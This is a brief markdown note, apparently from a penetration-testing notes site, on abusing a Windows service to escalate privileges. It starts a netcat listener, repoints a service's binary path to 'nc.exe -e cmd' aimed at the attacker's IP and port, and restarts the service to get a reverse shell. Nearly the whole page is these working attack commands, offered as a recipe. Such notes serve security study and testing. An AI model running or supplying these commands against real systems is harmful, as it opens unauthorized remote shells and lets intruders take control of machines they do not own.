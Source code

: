 ```yaml
---
title: "Built-in Group"
date: 2024-7-24
tags: ["Built-In Group", "Windows", "Windows Service"]
---
```


#### Abuse #1. Modify service path

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Change service path

```console
# Assumed nc.exe is uploaded
sc.exe config <SERVICE> binpath="C:\ProgramData\nc.exe -e cmd <LOCAL_IP> <LOCAL_PORT>"
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console
# Start service
sc.exe start <SERVICE>
```

{{< /tabcontent >}}
